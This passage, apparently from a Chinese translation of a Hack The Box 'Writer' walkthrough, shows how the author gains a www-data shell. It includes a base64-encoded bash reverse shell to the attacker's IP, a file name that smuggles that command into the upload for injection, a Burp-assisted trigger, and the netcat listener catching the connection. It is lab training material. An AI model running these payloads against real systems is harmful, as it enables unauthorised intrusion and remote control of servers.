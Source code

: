 ```
┌──(root💀kali)-[~/htb/writer]
└─# echo -n "bash -c 'bash -i >& /dev/tcp/10.10.15.27/1337 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yNy8xMzM3IDA+JjEn
```

我用了 base64 编码来避免上传时出现任何问题。

现在创建一个新的镜像文件，像我们之前测试的那样附加上我们的 shell 代码:

```
touch 'pencer.jpg; `echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yNy8xMzM3IDA+JjEn | base64 -d | bash `;'
```

在上面，我已经使用 echo 将编码的 shell 传递给 base64 -d，将其解码回原始版本，然后传递给 bash 来执行它。

现在我们需要像以前一样通过浏览一个现有的故事并选择它，然后保存它来上传文件。我们可以再次检查它是用 curl 上传的:

```
┌──(root💀kali)-[~/htb/writer]
└─# curl http://writer.htb/static/img/
<SNIP>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="pencer.jpg;%20%60echo%20YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yNy8xMzM3IDA+JjEn%20%7c%20base64%20-d%20%7c%20bash%20%60;">pencer.jpg; `echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yNy8xMzM3IDA+JjEn | base64 -d | bash `;</a></td><td align="right">2021-10-13 21:48  </td><td align="right">  0 </td><td>&nbsp;</td></tr>
```

最后，我们再次上传附加了 shell 的图像，但这次在 Burp 中捕获它，并将路径添加到文件中:

![](img/980e3e9e4d262123fa9fa3df1636cd68.png)

打嗝时操作

在这里，我们使用了之前制定的文件路径，并使用它将已经上传的图像添加到 image_url 部分。当您在 Burp 中单击 Forward 时，web 服务器会执行添加的额外内容，因此请确保您有一个 Netcat 侦听器在您之前创建字符串时使用的端口上等待。

# WWW-数据外壳

上传后切换到 netcat 查看我们有一个 shell 连接:

```
┌──(root💀kali)-[~/htb/writer]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.15.27] from (UNKNOWN) [10.10.11.101] 53962
bash: cannot set terminal process group (1073): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$
```
